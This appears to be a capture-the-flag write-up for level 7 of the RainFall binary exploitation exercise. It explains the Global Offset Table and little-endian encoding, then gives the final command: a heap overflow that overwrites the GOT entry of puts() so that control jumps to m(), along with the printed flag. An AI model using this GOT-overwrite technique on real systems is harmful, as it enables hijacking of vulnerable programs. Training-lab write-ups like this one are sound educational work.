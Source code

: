 The function:

- Moves `0x0` to pointer on pile of the stack `esp`
- Makes call to `time()` which return the time as the number of seconds since the Epoch

### The global offset table - GOT

*“The **Global Offset Table**, or **GOT**, is a section of a computer program's (executables and shared libraries) memory used to enable computer program code compiled as an ELF file to run correctly,  independent of the memory address where the program’s code or data is loaded at runtime.” -* https://en.wikipedia.org/wiki/Global_Offset_Table

### Overwriting the GOT

https://medium.com/@0xwan/binary-exploitation-heap-overflow-to-overwrite-got-d3c7d97716f1 

### Converting the address

To properly inject this address, we need to represent it in **little-endian** format, as this is how memory addresses are stored on the target system. 

**Little-endian** is a way of representing multi-byte data in memory where the **least significant byte** (the "lowest" byte) is stored at the **lowest memory address**, and the **most significant byte** is stored at the highest memory address.

The `puts()` function is located at the address **`0x8049928`**. The little-endian format for the address **`0x8049928`** is:  `\x28\x99\x04\x08`.

```bash
'\x28\x99\x04\x08'
```

The `m()` function is located at the address **`0x080484f4`**. The little-endian format for the address **`0x080484f4`** is:  `\xf4\x84\x04\x08`.

```nasm
'\xf4\x84\x04\x08'
```

### The final command

The final command is :

```nasm
level7@RainFall:~$ ./level7 $(python -c "print('A' * 20 + '\x28\x99\x04\x08')") $(python -c "print('\xf4\x84\x04\x08\x00')")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

### Resources

- Global offset table : [https://ctf101.org/binary-exploitation/what-is-the-got/](https://en.wikipedia.org/wiki/Global_Offset_Table)
- Overwriting the GOT : [https://medium.com/@0xwan/binary-exploitation-heap-overflow-to-overwrite-got-d3c7d97716f1](https://medium.com/@0xwan/binary-exploitation-heap-overflow-to-overwrite-got-d3c7d97716f1)
